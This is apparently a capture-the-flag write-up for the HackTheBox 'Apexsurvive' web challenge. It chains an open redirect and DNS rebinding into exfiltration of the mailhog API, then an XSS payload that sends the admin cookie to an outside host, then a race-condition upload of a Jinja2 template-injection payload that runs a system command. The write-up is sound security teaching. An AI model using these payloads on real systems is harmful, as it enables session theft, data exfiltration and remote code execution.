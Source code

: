 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = true
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to test@email.htb.

![EmailCode](/test-email.png)

We create a user with the email test@email.htb and confirm the registration by visiting the link from an email.

![Verify email 1](/verify-email-1.png)

![Verify email 2](/verify-email-2.png)

## Internal User
Upon further code inspection we find out that users that sign up with an email hosted at apexsurvive.htb will be marked as internal users.

![VerificationCode](/apexsurvive-email.png)

There's an "/external" API endpoint that can be used for an open redirect.

![Open redirect](/open-redirect.png)

And the emails are served by mailhog running on port 9000 and can be internally retrieved by using the "/api/v2/messages" endpoint.

![Mailhog port](/mailhog-port.png)

We create an user asdf@apexsurvive.htb.

![Apex register](/apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](/apex-verify.png)

We'll use the /external endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from mailhog running on port 9000 and get the confirmation email for internal user. To do this, I'll set up an EC2 instance with a public ip address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](/dns-config.png)

On the instance, I'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from ec2 public ip address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an http server on it serving index.html that keeps fetching /api/v2/messages for mailhog emails and then sends them back to us. Keep in mind it has to be on the same origin (port 9000).

    sudo python3 -m http.server 9000

index.html:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

We log in as test@email.htb and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](/dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after start=start one contains base64 encoded emails from mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](/exfiltrated-emails.png)
![Base64 emails](/base64-emails.png)

## XSS to steal admin cookie
As an internal user we now have the ability to add products. In /application/templates/product.html we notice that the product.note (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](/product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](/add-product.png)

We double check we escaped JS backticks after adding the product:

![JS backtick escape](/js-backtick-escape.png)

After we create it, we make admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](/admin-session-xss.png)

## Admin to RCE
As an admin, we now have the ability to add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a pdf,
- we can save the file anywhere by using “..” in the filename,
- the pdf check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](/pdf-upload-race-condition.png)

As a result, there’s a race condition between saving the temp file and checking that it’s a pdf.

We prepare 2 files:
1) a small pdf,
2) a jijnja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](/burp-parallel-1.png)
![Burp parallel requests setup 2](/burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of pdf/jinja2 template requests in the group. We watch out for “message: Contract added” in a response to a jinja2 template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under /static/images/flag.txt.

![Result 0](/result-0.png)
![Apex flag](/apex-flag.png)

## References:
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine